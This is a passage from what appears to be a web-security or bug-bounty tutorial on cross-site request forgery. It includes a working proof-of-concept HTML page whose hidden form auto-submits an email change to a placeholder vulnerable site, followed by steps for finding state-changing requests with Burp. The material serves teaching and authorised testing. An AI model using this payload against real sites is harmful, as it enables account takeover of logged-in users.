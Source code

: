 The attacker could make a HTML page to make this attack like this:

```html
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

And if the user visit this web page:

- The attacker page will triger a HTTP request to the vulnerable website.
- If the user is logged in the vulnerable website, the browser will automaticlly include his session cookies on the reqest.  • (assuming [SameSite cookies](https://portswigger.net/web-security/csrf/samesite-cookies) are not being used).
- The vulnerable web site will process the request in the normal way, and BOOM the email will be change.

---

# `Hunting for CSRFs`

To look for them, start by discovering `state-changing requests` that aren’t shielded by CSRF protections. Just always try to test wil `FireFox`

### Step 1: Spot State-Changing Actions

For example, `sending` tweets and `modifying` user settings are both state-changing.

Just start sign up and login in the web application and try to discover state changing actions.

For example, let’s say you’re testing [email.example.com](http://email.example.com/), a subdomain of [example.com](http://example.com/) that handles email.

Go through all the `app’s functionalities`, clicking all the `links`. `Intercept` the generated requests with a proxy like Burp and write down their `URL endpoints.`

**State-changing requests on** [email.example.com](http://email.example.com/)
•Change password: [email.example.com/password_change](http://email.example.com/password_change) → POST request
Request parameters: new_password
•Send email: [email.example.com/send_email](http://email.example.com/send_email) → POST request
Request parameters: draft_id, recipient_id
•Delete email: [email.example.com/delete_email](http://email.example.com/delete_email) → POST request
Request parameters: email_id

---
